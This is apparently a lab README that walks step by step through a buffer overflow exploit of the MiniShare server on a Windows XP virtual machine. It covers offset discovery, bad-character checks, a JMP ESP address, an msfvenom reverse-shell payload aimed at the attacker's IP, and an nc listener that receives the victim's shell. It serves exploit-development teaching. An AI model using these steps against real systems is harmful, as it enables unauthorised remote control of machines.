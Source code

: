 # buffer_overflow_winXP
Tool : Virtual Machine WinXP, Immunity Debugger, Minishare
************************************************************
Demo: https://www.youtube.com/watch?v=h9FXTdwDmbk
The Guideline for Buffer Overflow Attack 

Kali Linux: attacker (192.168.37.128) | Windows XP: victim (192.168.37.134)
--------------------------------------------------------------------------------------------------
-Step1: (Windows), open Minishare, Immunity Debugger/Attach/Minishare
(if needed Immunity Debugger/Debug/Restart (Yes), /Play)

-Step2: (Kali), python2 mini-1.py 192.168.37.134
check: EIP 41414141

-Step3: (Kali, generate pattern for checking offset value of ESP) 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
Copy the pattern to mini-2.py

-Step4: Immunity Debugger/Debug/Restart (Yes), /Play
python2 mini-2.py 192.168.37.134
check: ESP Ch7Ch8Ch9 ...
check: EIP 36684335

-Step5: (Kali, check the offset)
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 36684335
Exact match at offset 1787
Edit mini-3.py

-Step6: Immunity Debugger/Debug/Restart (Yes), /Play
python2 mini-3.py 192.168.37.134
Check: ESP "CCC ...
Check: EIP 42424242
Add badchars to mini-4.py

-Step7: Immunity Debugger/Debug/Restart (Yes), /Play
python2 mini-4.py 192.168.37.134
Click ESP, right click/ Follow in Dump, check Hex Dump: 01 02 03 ... 0C 0D 0E ...
Edit mini-5.py, remove the value \x0d

-Step8: Immunity Debugger/Debug/Restart (Yes), /Play
python2 mini-5.py 192.168.37.134
Click ESP, right click/Follow in Dump, check Hex Dump: don't see 0D

-Step9: Immunity Debugger/Debug/Restart (Yes)
/View/log, click USER32.dll -> click "e" on the tool bar, double click USER32.dll/right click/Search for/Command: JMP ESP, remember the address value 7E429353 that is added value to mini-6.py

-Step10: (Kali, create a shellcode) msfvenom -p windows/shell_reverse_tcp lhost=192.168.37.128 lport=443 -b "\x00\x0d" -f c -e x86/shikata_ga_nai

Add the shellcode to mini-6.py, remove the badchars.

-Step11: (Kali) nc -lvp 443

-Step12: Exit Immunity Debugger. Open Minishare.
python2 mini-6.py 192.168.37.134
(Kali) At the terminal running nc -lvp 443 dumps the terminal of Windows XP (for example: C:\Documents and Settings\victim\Desktop\MiniShare>). Now, you can run commands for remote control.
                                                                                             
